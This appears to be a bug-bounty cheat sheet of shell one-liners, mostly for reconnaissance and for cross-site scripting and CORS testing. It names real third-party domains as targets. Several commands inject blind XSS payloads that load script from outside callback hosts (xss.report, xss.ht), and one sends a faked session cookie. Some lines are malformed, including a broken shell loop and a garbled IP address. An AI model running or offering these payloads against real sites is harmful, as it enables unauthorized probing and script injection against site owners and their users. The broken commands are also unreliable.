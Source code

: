 -

     echo target.com | gau | grep ".js" | httpx -content-type | grep 'application/javascript'" | awk '{print $1}' | nuclei -t /nuclei-templates/exposures/ -silent > secrets.txt

-

     echo uber.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

-

     python3 paramspider.py --domain indrive.com

-

     python3 paramspider.py --domain https://cpcalendars.cartscity.com --exclude woff,css,js,png,svg,php,jpg --output g.txt

-

     cat indrive.txt | kxss  ( looking for reflected :-  "<> )

-

     dirsearch  -u https://www.example.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json

-

     subfinder -d example.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/binbash></script>' -parameters

-

     subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

-

     python3 /opt/Corsy/corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
~Cors Poc Exploit : ```https://github.com/hunthack3r/PoCors.git```

## Looking for Hidden parameters :-


     arjun -u https://44.75.33.22wms/wms.login -w burp-parameter-names.txt 
-

     waybackurls example.com | gf xss | grep '=' | qsreplace '"><script src=https://xss.report/c/binbash></script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n";done
-

     dalfox url https://access.epam.com/auth/realms/plusx/protocol/openid-connect/auth?response_type=code -b https://hahwul.xss.ht
-

     dalfox file urls.txt -b https://hahwul.xss.ht
-
